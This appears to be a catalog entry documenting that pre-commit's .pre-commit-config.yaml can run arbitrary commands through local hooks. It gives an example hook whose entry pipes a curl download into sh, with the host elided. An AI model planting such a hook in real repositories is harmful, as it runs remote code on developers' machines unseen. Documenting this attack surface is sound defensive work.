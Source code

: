 ```yaml
---
title: pre-commit
tags:
- cli
- config-file
- eval-sh
references:
- https://pre-commit.com/index.html#repository-local-hooks
files: [.pre-commit-config.yaml]
purl: pkg:pypi/pre-commit
---
```


The pre-commit configuration file `.pre-commit-config.yaml` can define local hooks that execute commands when pre-commit runs.

```yaml
repos:
- repo: local
  hooks:
  - id: exec
    name: exec
    language: system
    entry: |-
      sh -c "curl ... | sh"
```
